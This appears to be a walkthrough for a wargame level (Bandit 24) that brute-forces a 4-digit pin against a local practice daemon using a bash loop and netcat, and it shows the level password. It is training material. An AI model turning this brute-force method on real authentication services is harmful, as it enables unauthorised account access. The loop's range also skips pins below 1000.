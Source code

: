 # Bandit

## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

<br/>
## Solution
We have to perform a bruteforce to get password for next Level.

First, lets connect using netcat.

```shell
bandit24@bandit:~$ nc localhost 30002                                                                                                                                
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.               
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
Timeout. Exiting. 
```

We will generate a file containing password and all possible 4 digits numbers. This is done using below one liner.

```shell
bandit24@bandit:~$ for i in {1000..10000}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/payload24 ; done
```

Now provide this file as input to netcat and this will reveal password for next Level.

Final Command:
```shell
bandit24@bandit:~$ nc localhost 30002 < /tmp/payload24
```

Solution Screenshot:

![Level 24 Image](./images/Level24.png)
![Level 24 Image](./images/Level24.1.png)


<br/>

[<< Back](https://grey-fish.github.io/Bandit/index.html)

